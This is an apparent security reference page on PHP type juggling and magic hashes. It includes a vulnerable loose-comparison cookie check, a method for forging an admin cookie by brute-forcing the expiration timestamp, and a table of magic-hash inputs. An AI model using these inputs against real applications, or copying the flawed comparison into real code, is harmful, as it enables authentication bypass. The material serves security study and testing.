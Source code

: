 # PHP Juggling type and magic hashes

PHP provides two ways to compare two variables:

- Loose comparison using `== or !=` : both variables have "the same value".
- Strict comparison using `=== or !==` : both variables have "the same type and the same value".

PHP type juggling vulnerabilities arise when loose comparison (== or !=) is employed instead of strict comparison (=== or !==) in an area where the attacker can control one of the variables being compared. This vulnerability can result in the application returning an unintended answer to the true or false statement, and can lead to severe authorization and/or authentication bugs.

> PHP8 won't try to cast string into numbers anymore, thanks to the Saner string to number comparisons RFC, meaning that collision with hashes starting with 0e and the likes are finally a thing of the past! The Consistent type errors for internal functions RFC will prevent things like `0 == strcmp($_GET['username'], $password)` bypasses, since strcmp won't return null and spit a warning any longer, but will throw a proper exception instead. 

## Type Juggling

### True statements

```php
var_dump('0010e2'   == '1e3');           # true
var_dump('0xABCdef' == ' 0xABCdef');     # true PHP 5.0 / false PHP 7.0
var_dump('0xABCdef' == '     0xABCdef'); # true PHP 5.0 / false PHP 7.0
var_dump('0x01'     == 1)                # true PHP 5.0 / false PHP 7.0
var_dump('0x1234Ab' == '1193131');
```

```php
'123'  == 123
'123a' == 123
'abc'  == 0
```

```php
'' == 0 == false == NULL
'' == 0       # true
0  == false   # true
false == NULL # true
NULL == ''    # true
```

### NULL statements

```php
var_dump(sha1([])); # NULL
var_dump(md5([]));  # NULL
```

### Example vulnerable code

```php
function validate_cookie($cookie,$key){
	$hash = hash_hmac('md5', $cookie['username'] . '|' . $cookie['$expiration'], $key);
	if($cookie['hmac'] != $hash){ // loose comparison
		return false;
	... 
```

The $cookie variable is provided by the user. The $key variable is a secret and unknown to the user.

If we can make the calculated hash string Zero-like, and provide "0" in the $cookie['hmac'], the check will pass.

```
"0e768261251903820937390661668547" == "0"
```

We have control over 3 elements in the cookie:
- $username - username you are targeting, probably "admin"
- $hmac - the provided hash, "0"
- $expiration - a UNIX timestamp, must be in the future

Increase the expiration timestamp enough times and we will eventually get a Zero-like calculated HMAC.

```
hash_hmac(admin|1424869663) -> "e716865d1953e310498068ee39922f49"
hash_hmac(admin|1424869664) -> "8c9a492d316efb5e358ceefe3829bde4"
hash_hmac(admin|1424869665) -> "9f7cdbe744fc2dae1202431c7c66334b"
hash_hmac(admin|1424869666) -> "105c0abe89825a14c471d4f0c1cc20ab"
...
hash_hmac(admin|1835970773) -> "0e174892301580325162390102935332" // "0e174892301580325162390102935332" == "0"
```

## Magic Hashes - Exploit

If the hash computed starts with "0e" (or "0..0e") only followed by numbers, PHP will treat the hash as a float.

| Hash | “Magic” Number / String    | Magic Hash                                    | Found By / Description      |
| ---- | -------------------------- |:---------------------------------------------:| -------------:|
| MD5  | 240610708                  | 0e462097431906509019562988736854              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | QNKCDZO                    | 0e830400451993494058024219903391              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e1137126905               | 0e291659922323405260514745084877              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e215962017                | 0e291242476940776845150308577824              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 129581926211651571912466741651878684928                | 06da5430449f8f6f23dfc1276f722738              | Raw: ?T0D??o#??'or'8.N=? |
| SHA1 | 10932435112                | 0e07766915004133176347055865026311692244      | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773          | 0e281250946775200129471613219196999537878926740638594636 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                | 0e66298694359207596086558843543959518835691168370379069085300385 | [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083)

```php
<?php
var_dump(md5('240610708') == md5('QNKCDZO')); # bool(true)
var_dump(md5('aabg7XSs')  == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
?>
```

## References

* [Writing Exploits For Exotic Bug Classes: PHP Type Juggling By Tyler Borland](http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html)
* [Magic Hashes - WhiteHatSec](https://www.whitehatsec.com/blog/magic-hashes/)
* [PHP Magic Tricks: Type Juggling](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)
